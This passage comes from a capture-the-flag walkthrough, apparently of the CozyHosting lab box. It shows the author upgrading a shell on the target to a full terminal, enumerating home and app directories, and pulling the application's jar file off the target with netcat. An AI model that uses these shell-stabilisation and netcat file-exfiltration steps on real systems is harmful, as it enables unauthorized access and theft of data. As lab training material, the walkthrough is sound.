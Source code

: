 Now I am going to upgrade my shell (*Python isn't on the target so I have to do it the long way*). Below are the steps that I use to do so:

```bash
script /dev/null -c bash

# ^Z (CTRL Z) to background the shell

stty raw -echo;fg

reset #type 'screen' when asked for terminal type

export TERM=xterm # allows you to clear STDOUT

# You can set row and column specifics on the target to make it match the settings on your host terminal, I will skip this for now
```

Now that we have our shell setup, let's see what we need to do to be able to read the user flag.

Looks like the user flag is in the user josh's home directory and we need to find a way to elevate our privs to that user.

```bash
app@cozyhosting:/app$ pwd
/app
app@cozyhosting:/app$ ls -alh /home
total 12K
drwxr-xr-x  3 root root 4.0K May 18 15:03 .
drwxr-xr-x 19 root root 4.0K Aug 14 14:11 ..
drwxr-x---  4 josh josh 4.0K Oct  6 00:46 josh
app@cozyhosting:/app$ cd /home/josh
bash: cd: /home/josh: Permission denied
app@cozyhosting:/app$
```

There is a large .jar file in the /app directory. Let's get this to our machine and see what we can do with it.

```bash
app@cozyhosting:/app$ ls -alh
total 58M
drwxr-xr-x  2 root root 4.0K Aug 14 14:11 .
drwxr-xr-x 19 root root 4.0K Aug 14 14:11 ..
-rw-r--r--  1 root root  58M Aug 11 00:45 cloudhosting-0.0.1.jar
```

To get it to your machine we can use netcat both on our machine and the target. 

```bash
# On the target server. Run this first

nc -l -p pick_a_port < cloudhosting-0.0.1.jar
```

```bash
# On the attacking machine

nc ip_of_target port_of_target > ch.jar
```
